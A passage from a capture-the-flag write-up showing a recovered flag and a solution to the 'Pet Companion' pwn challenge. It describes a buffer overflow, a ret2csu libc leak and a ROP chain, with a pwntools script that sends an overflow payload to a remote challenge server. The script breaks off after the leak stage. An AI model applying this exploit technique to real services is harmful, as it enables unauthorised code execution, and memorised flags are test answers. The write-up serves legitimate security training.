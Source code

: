 ![chall-sc](https://hackmd.io/_uploads/Hkhppf1RT.png)

Flag: `HTB{3v3ryth1ng_15_r34d4bl3}`

# 4. Pet Companion (_easy_)

There is a buffer overflow vulnerability on read(0, buf, 256uLL)

![chall-sc](https://hackmd.io/_uploads/Skuypm1Ap.png)

I used ret2csu to leak the libc's write address. Then, I constructed a ROP chain to achieve arbitrary code execution

![chall-sc](https://hackmd.io/_uploads/H1GuVdW06.png)

```python
from pwn import *
exe = './pet_companion'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 83.136.254.16 55249".split(" ")[1:3]
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()
libc = ELF("./glibc/libc.so.6", checksec = 0)
ld = ELF("./glibc/ld-linux-x86-64.so.2", checksec = 0)

p = cyclic(0x48)
p += p64(0x40073a)
p += p64(0x0)
p += p64(0x1)
p += p64(0x600fd8)
p += p64(0x1)
p += p64(0x600fd8)
p += p64(0x6)
p += p64(0x400720)
p += p64(0x0)
p += p64(0x0)
p += p64(0x0)
p += p64(0x0)
p += p64(0x0)
p += p64(0x0)
p += p64(0x0)
p += p64(0x40064a)
sla(b'current status: ', p)
rud(b'...\n')
```